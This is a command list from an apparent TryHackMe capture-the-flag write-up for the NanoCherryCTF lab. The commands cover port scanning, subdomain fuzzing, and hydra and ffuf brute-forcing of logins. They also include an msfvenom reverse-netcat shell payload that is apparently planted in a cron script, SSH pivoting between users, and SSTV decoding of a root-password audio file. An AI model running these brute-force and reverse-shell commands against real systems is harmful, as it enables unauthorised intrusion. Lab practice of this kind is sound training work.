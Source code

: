 # TryHackMe-NanoCherryCTF

**Scope:**

- SSTV Decoding

**Keywords:**

- Username Brute Force
- Password Brute Force
- API
- Subdomain Enumeration
- DNS Manipulation
- Crontab Analysis
- Base32
- audacity
- sstv
- SSTV Decoding

**Main Commands:**

- `nmap -sS -sV -sC -T4 -A -O -F -oN nmap_result.txt -Pn $target_ip`
- `wfuzz -u 'http://cherryontop.thm' -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H 'Host: FUZZ.cherryontop.thm' -c -t 50 --hc 404,403,500,501,502,503 --hh 13968`
- `curl --path-as-is -ikL -X 'POST' --data-binary $'username=admin&password=admin&submit=' $'http://nano.cherryontop.thm/login.php' -b $'PHPSESSID=n5clq5n0uo5dmt2jh4sr06suif'`
- `ffuf -u 'http://nano.cherryontop.thm/login.php' -X POST -d 'username=FUZZ&password=admin&submit=' -H 'Content-Type: application/x-www-form-urlencoded' -w /usr/share/seclists/Usernames/top-usernames-shortlist.txt -mc all -t 100 -fr "This user doesn't exist"`
- `hydra -L /usr/share/seclists/Usernames/top-usernames-shortlist.txt -p admin nano.cherryontop.thm http-post-form "/login.php:username=^USER^&password=^PASS^&submit=:This user doesn't exist" -t 64 -F`
- `hydra -l puppet -P /usr/share/seclists/Passwords/cirt-default-passwords.txt nano.cherryontop.thm http-post-form "/login.php:username=^USER^&password=^PASS^&submit=:Bad password" -t 64 -F`
- `ssh -o MACs=hmac-sha2-256 notsus@cherryontop.thm -p 22`
- `mkdir -p home/bob-boba`
- `tree home`
- `msfvenom -p cmd/unix/reverse_netcat lhost=10.2.37.37 lport=11222 R`
- `nano home/bob-boba/coinflip.sh`
- `python3 -m http.server 8000`
- `ssh -o MACs=hmac-sha2-256 molly-milk@cherryontop.thm -p 22`
- `hashid 'I52WK43U'`
- `echo I52WK43U | base32 -d`
- `curl -iLX GET 'http://cherryontop.thm/content.php?facts=1&user=I52WK43U'`
- `ffuf -u 'http://cherryontop.thm/content.php?facts=FUZZ&user=I52WK43U' -w <(seq 1 100) -mc all -fw 754 -ic`
- `for i in $(cat username_clean.txt); do echo -n $i | base32 >> username_base32.txt; done`
- `ffuf -u 'http://cherryontop.thm/content.php?facts=IDNUMBER&user=USER' -w <(seq 1 100):IDNUMBER -w username_base32.txt:USER -fr "Error" -mc all -t 100 -fw 754 -fs 2499,2519,2514,2523,2479,2498,2487,2486`
- `ssh -o MACs=hmac-sha2-256 sam-sprinkles@cherryontop.thm -p 22`
- `crackmapexec ssh cherryontop.thm -u 'chad-cherry' -p found_passwords.txt --port 22 -x 'whoami'`
- `ssh -o MACs=hmac-sha2-256 chad-cherry@cherryontop.thm -p 22`
- `scp -o MACs=hmac-sha2-256 chad-cherry@cherryontop.thm:rootPassword.wav /root/Desktop/CyberLearningFramework/nanocherryctf/rootPassword.wav`
- `audacity rootPassword.wav`
- `sstv -d rootPassword.wav -o rootPassword.png`
